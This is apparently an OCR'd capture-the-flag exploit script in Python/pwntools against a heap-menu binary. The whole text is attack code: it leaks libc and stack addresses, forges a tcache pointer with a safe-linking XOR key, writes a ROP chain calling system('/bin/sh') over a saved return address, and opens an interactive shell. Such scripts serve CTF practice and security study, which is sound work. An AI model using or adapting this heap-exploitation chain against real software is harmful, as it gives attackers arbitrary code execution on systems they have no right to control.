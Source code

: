 ```python
til(b'Varchar: ')
libc.address = u64(p.recv(6) + b'\x00\x00')+0x7d260ae00000-0x7d260b01b00a
suc('libc',hex(libc.address))
print(hex(heap_key))
print(hex(libc.sym.environ))
#stack
payload1 = b'\x0a' + b'a' * 0x400 + p64(0x31) + p64((libc.sym.environ-0x10) ^ heap_key) 
edit(2,slot_id2,0x411,payload1)
create(11)
edit(2,slot_id2,0x20,b'a'*0x10)
get(2,slot_id2)
til(b'Varchar: '+b'a'*0x10)
stack = u64(p.recv(6) + b'\x00\x00')
suc('stack',hex(stack))
#rop
payload2 = b'\x0a' + b'b' * 0x400 + p64(0x31) + p64(heap_key ^  ((heap_key<<12)+0xff0)) + p64(0) * 4 + p64(0x411) + p64((stack-0x8-0x120) ^ heap_key)
remove(11)
edit(2,slot_id2,0x441,payload2)
edit(2,slot_id1,0x400,b'\n')
rdi = libc.address + 0x00000000002a3e5
ret = rdi + 1
system = libc.sym['system']
binsh = next(libc.search(b'/bin/sh\x00'))
ogg = libc.address + 0xebd3f
pl = p64(stack-(0x500-0x480)) + p64(rdi) + p64(binsh) + p64(ret) + p64(system)
edit(2,slot_id2,0x400,pl)
sla(b'>>> ',str(6).encode())
p.interactive()
```
